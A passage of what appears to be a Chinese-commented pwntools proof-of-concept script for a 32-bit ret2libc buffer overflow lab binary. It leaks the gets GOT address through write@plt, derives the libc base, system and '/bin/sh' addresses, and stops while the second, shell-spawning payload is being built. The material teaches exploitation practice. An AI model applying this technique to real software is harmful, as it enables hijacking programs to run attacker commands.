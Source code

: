 ```python
poc.py代码如下
from pwn import *
# 设置程序运行的架构和操作系统
context(arch="i386", os="linux")

# 运行目标程序
p = process("./ret2libc1_32")

# 加载 ELF 文件对象，方便解析符号表
e = ELF("./ret2libc1_32")

# 获取目标程序中 write@plt 的地址，用于调用 write 函数,由于write已经调用过一次了，可以直接从plt表获得write函数的入口地址。
write_plt_addr = e.plt["write"]

# 获取目标程序中 gets@got 的地址，用于泄露其真实地址
gets_got_addr = e.got["gets"]

# 获取目标程序中 vul 函数的地址，用于在第一个 payload 后返回重新利用漏洞
vul_addr = e.symbols["vul"]

# 缓冲区溢出偏移量
offset = 22

# 构造第一个 Payload：
# 1. 填充缓冲区至返回地址 (22 个字节的 'A')
# 2. 覆盖返回地址为 write@plt 的地址
# 3. 设置 write@plt 的返回地址为 vul 函数地址（便于二次利用漏洞）
# 4. 参数 1：文件描述符 stdout（1）
# 5. 参数 2：gets@got 的地址（用于泄露 gets 的实际地址）
# 6. 参数 3：写入长度（4 字节）
payload1 = (
    offset * b"A" +         # 填充缓冲区
    p32(write_plt_addr) +   # 覆盖返回地址，跳转到 write@plt
    p32(vul_addr) +         # 返回到 vul 函数
    p32(1) +                # write 的第一个参数（文件描述符）
    p32(gets_got_addr) +    # write 的第二个参数（泄露的地址）
    p32(4)                  # write 的第三个参数（字节数）
)

# 发送第一个 Payload，触发缓冲区溢出并泄露 gets 的实际地址
p.sendlineafter("hello", payload1)

# 从程序输出中接收并解析泄露的 gets 函数实际地址（4 字节），u32用于
gets_addr = u32(p.recv()[:4])
print(f"Leaked gets address: {hex(gets_addr)}")

# 加载 libc 文件，便于计算基地址
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

# 计算 libc 的基地址 = 泄露的 gets 地址 - gets 在 libc 中的偏移
libc_base = gets_addr - libc.symbols["gets"]
print(f"libc base: {hex(libc_base)}")

# 计算 system 函数的实际地址 = libc 基地址 + system 在 libc 中的偏移
system_addr = libc_base + libc.symbols["system"]
print(f"system address: {hex(system_addr)}")

# 计算 "/bin/sh" 的实际地址 = libc 基地址 + "/bin/sh" 的偏移
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))
print(f"/bin/sh address: {hex(bin_sh_addr)}")

# 构造第二个 Payload：
# 1. 填充缓冲区至返回地址 (22 个字节的 'A')
```